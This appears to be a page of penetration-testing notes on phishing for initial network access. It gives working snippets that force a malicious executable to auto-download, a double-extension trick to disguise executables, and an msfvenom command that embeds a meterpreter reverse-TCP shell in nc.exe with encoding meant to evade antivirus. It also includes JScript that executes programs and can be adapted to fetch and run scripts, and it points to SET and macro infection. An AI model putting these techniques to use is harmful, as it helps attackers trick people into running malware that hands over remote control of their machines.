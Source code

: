 # Social Engineering - Phishing

Gaining initial access to a network is often done using different kinds of social engineering attacks.

## Auto-download a malicious file

The techical part is not really that difficult here. In order to auto-download a file you just add this script to the malicious webpage

```
<script> document.location.href = 'shell53.exe'; </script>
```

Another way to do it is like this

```
<html>
<head>
<meta http-equiv="refresh" content="0; url=shell53.exe">
</head>
</html>
```

Of course the user will have to accept to download the file, unless the user has previously checked in the box automatically download. The user must then click the file for it to execute. This is where the social engineering part comes in, you really must trick the user into executing the file.

### Change the filename

Since windows by default remove the filename you can call your file shell.jpg.exe, and once downloaded onto the machine windows will display it as "shell.jpg".

### Embed malicious code in legitimate file

It is however very likely that this will be picked up by a antivirus.

```
msfvenom -a x86 --platform windows -x nc.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lhost=53 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o ncMalicious.exe
```

## Autodownload a malicious javascript-files

Just like we can download an exe for a user to can also make that user download a javascript file. Since javascript files can execute commands on windows.

```
var oShell = new ActiveXObject("Shell.Application");
var commandtoRun = "C:\\Windows\\system32\\calc.exe";
oShell.ShellExecute(commandtoRun,"","","open","1");
```

This code can be modified to greate a wget-script and then download and execute a script.

The most common tool for social engineering is to use Social Engineering Toolkit. SET. It comes as default in Kali. Run it like this:


```
setoolkit
```
## Spear phishing

## Word/excel makros

An explanation of how to createa malicious makro-wordfile.

https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/

## Reference:
https://www.youtube.com/watch?v=NTdthBQYa1k